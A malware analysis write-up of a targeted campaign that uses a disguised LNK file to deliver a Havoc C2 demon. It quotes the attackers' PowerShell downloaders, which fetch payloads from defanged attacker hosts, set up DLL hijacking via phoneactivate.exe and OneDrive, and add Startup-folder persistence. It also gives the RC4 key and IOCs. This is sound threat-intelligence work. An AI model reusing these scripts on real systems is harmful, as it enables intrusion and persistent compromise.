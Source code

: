 ```yaml
---
title: Targeted Campaign Delivering Havoc
by: dmpdump
tags: malware havoc
---
```


On January 15, 2025, a file named DH-Report76.pdf.lnk was uploaded to VirusTotal. The LNK file was likely being delivered to victims from `army-mil[.]zapto.org`.

![sshot](/assets/images/havoc/lnkdelivery.png)

Parsing the LNK file, we can see that it runs a PowerShell downloader that gets a PowerShell script from `army-mil.b-cdn[.]net`, using the Bunny Content Delivery Network.

![sshot](/assets/images/havoc/psdownloader.png)

Looking at the metadata, we can see that the LNK file was created on a machine named `kasperskys`, likely on December 18, 2024.

![sshot](/assets/images/havoc/lnkmeta.png)

The PowerShell script performs the following actions:
* It downloads an encrypted payload named `onelog.dll`
* It downloads `sppc.dll`, a loader DLL
* It copies the legitimate `phoneactivate.exe` to \AppData\Local\, renaming it to "word.exe"
* It creates an LNK for persistent execution of the renamed `phoneactivate.exe` via the Startup folder

```powershell
$url2 = 'army-mil.b-cdn[.]net/onelog.dll';
$url3 = 'army-mil.b-cdn[.]net/sppc.dll';
$source = "C:\Windows\System32\phoneactivate.exe";
$destination = Join-Path -Path "C:\Users\$env:USERNAME\AppData\Local" -ChildPath "word.exe";
$outputPath2 = Join-Path -Path "C:\Users\$env:USERNAME\AppData\Local" -ChildPath "onelog.dll";
$outputPath3 = Join-Path -Path "C:\Users\$env:USERNAME\AppData\Local" -ChildPath "sppc.dll";
Invoke-WebRequest -Uri $url2 -OutFile $outputPath2;
Invoke-WebRequest -Uri $url3 -OutFile $outputPath3;
Copy-Item -Path $source -Destination $destination;
Start-Process -FilePath $destination -WorkingDirectory "$env:TEMP";
$ShortcutPath = "C:\Users\$($env:USERNAME)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\edge.lnk";
$TargetPath = "C:\Users\$($env:USERNAME)\AppData\Local\word.exe";
$WorkingDirectory = "C:\Users\$env:USERNAME\AppData\Local";
$WshShell = New-Object -ComObject WScript.Shell;
$Shortcut = $WshShell.CreateShortcut($ShortcutPath);
$Shortcut.TargetPath = $TargetPath;
$Shortcut.WorkingDirectory = $WorkingDirectory;
$Shortcut.Save()

```
The malicious `sppc.dll` is used for DLL hijacking. This DLL is loaded by the legitimate `phoneactivate.exe`. This DLL decrypts a shellcode loader and the next stage DLL from `onelog.dll`.

![sshot](/assets/images/havoc/onelog.png)

`sppc.dll` uses the undocumented `SystemFunction033` NTAPI for RC4 decryption. The key used for the payload decryption is `nbmavjzjlsbpixbddwqqmkqrdejdihrq`.

![sshot](/assets/images/havoc/readencpload.png)

![sshot](/assets/images/havoc/system033.png)

The decrypted `onelog.dll` is comprised of a shellcode loader followed by the next stage DLL, which is the final payload.

![sshot](/assets/images/havoc/decsc.png)

![sshot](/assets/images/havoc/decdll.png)

The loader shellcode resolves APIs via hashes using an implementation of the djb2 algorithm.

![sshot](/assets/images/havoc/scapires.png)

![sshot](/assets/images/havoc/djb2impsc.png)

# Final Payload: Havoc Demon

The original name of the final DLL payload is `demon.x64.dll`, a file name commonly associated with the demons (clients) of the Havoc framework. 

![sshot](/assets/images/havoc/origdllname.png)

The APIs in this DLL are also resolved via the djb2 algorithm, which we can also confirm in the project's [source](https://github.com/HavocFramework/Havoc/blob/41a5d45c2b843d19be581a94350c532c1cd7fd49/payloads/DllLdr/Source/Entry.c).

The demon has the following embedded configuration:

![sshot](/assets/images/havoc/demonconfig.png)

# Related activity
Trying to figure out if this campaign was related to something already known, I came across some X posts from [@JAMESWT_MHT](https://x.com/JAMESWT_MHT/status/1869724537115541616), [@malwrhunterteam](https://x.com/malwrhunterteam/status/1870065851828732282), and [@marsomx_](https://x.com/marsomx_/status/1870059140355084599) where they had found a similar Demon payload (also using a C2 hosted in Alibaba) associated with a campaign possibly targeting Bangladesh using a fraudulent transaction lure.

![sshot](/assets/images/havoc/mwht.png)

Additionally, [@StrikeReadyLabs](https://x.com/StrikeReadyLabs/status/1876284392319963587) did fantastic work discovering related activity, possibly targeting Bangladesh, Pakistan, and China. One of the LNK files shared by StrikeReady (136dd864f5772a6567aff34fcbe6f0665b7cc04b2d486004c370f410bee259b1) downloads a PowerShell script likely generated with an LLM:

```powershell
# Define URLs
$url1 = "uat-updates.gateway.ceair.com.81-cn[.]info/sspicli.dll"
$url2 = "uat-updates.gateway.ceair.com.81-cn[.]info/windowskernel32.dll"

# Define target folder
$targetFolder = "$env:LOCALAPPDATA\Microsoft\OneDrive"

# Ensure target folder exists
if (-not (Test-Path -Path $targetFolder)) {
    New-Item -ItemType Directory -Path $targetFolder -Force
}

# Define file paths
$file1 = Join-Path -Path $targetFolder -ChildPath "sspicli.dll"
$file2 = Join-Path -Path $targetFolder -ChildPath "windowskernel32.dll"

# Download the files
Invoke-WebRequest -Uri $url1 -OutFile $file1
Invoke-WebRequest -Uri $url2 -OutFile $file2

Write-Host "Files downloaded successfully to $targetFolder"
```
The files downloaded by the script are `sspicli.dll`, a payload decryptor, (7498a07f903486473cce83fbf16b88009765af98326e1ebef4c48f103b874f65) and `windowskernel32.dll`, the encrypted payload (90f43a20a956b5d2e7b73cd3c2a6896a3af032414a297a23d0f07ef2f1016b17). Interestingly, in this activity the threat actor did not download an executable for the DLL hijacking. Instead, they saved the trojanized DLL and encrypted payload to the OneDrive folder, so that the payload is loaded by OneDrive.exe.

`sspicli.dll` is a similar RC4 decryptor/loader for a Havoc demon that uses Cloudflare Workers for the C2.

![sshot](/assets/images/havoc/strikedec.png)

![sshot](/assets/images/havoc/strikeconfig.png)


# IOCs
* Delivery domain 1: army-mil\[.\]zapto.org
* Delivery domain 2: army-mil.b-cdn\[.\]net
* DH-Report76.pdf.lnk: 207b27f4f17802dc951b6300eaeeaed181ee7567526325f940e66242f54d3add
* f.ps1: 03dc626901d475bed1118e04a53405000b082180d5cd5d1105c1180432cf0c23
* Onelog.dll: 2a09b5f1429eb2b6049e374200cb39d7075dd962098adb6b61b0bafbcee9b487
* sppc.dll decryptor/loader: fe3659fe8ceedc9acbd84eca852f06feeb235e9fe83fa6da2383d17f6e0108c5
* Demon C2: 47.250.118\[.\]131